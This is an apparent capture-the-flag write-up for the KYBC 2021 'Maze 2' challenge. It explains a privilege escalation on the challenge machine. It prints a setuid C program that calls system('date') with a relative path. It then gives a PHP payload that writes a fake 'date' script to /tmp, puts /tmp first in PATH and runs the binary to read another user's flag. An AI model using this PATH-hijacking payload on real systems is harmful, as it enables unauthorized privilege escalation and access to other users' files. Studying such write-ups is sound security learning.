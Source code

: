 Title: KYBC 2021 - Maze 2 Writeup
Date: 2021-03-22
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-2-writeup
Summary: Writeup for Maze 2 challenge at KYBC CTF


_In order to start this challenge it was necessary to complete [Maze 1]({filename}/CTF/kybc-yogosha-maze1.md) first_

After catching the first flag, let's check what's in `home/ctf_user2`. There is a flag file, but this time concatenating it doesn't work since the current user (`ctf_user1`) doesn't have read permissions to it. The only other interesting thing is a file called `sysadmin.c`. Permissions are in my favor this time, so let's have a look at the content:

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{

    printf("Hello sysadmin :) \n");
    printf("Today date : \n");
    fflush(stdout);
    setreuid(geteuid(), getuid());
    system("date");
    return 0;
}
```

That `system("date")` call looks promising, so let's try to replace it with some useful bash statement instead:

```
<?php system('echo "cat /home/ctf_user2/.52942ab6e8a6dd0bd75a9029c2b5c574_flag2.txt" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

Check the proc file and catch the flag - success!
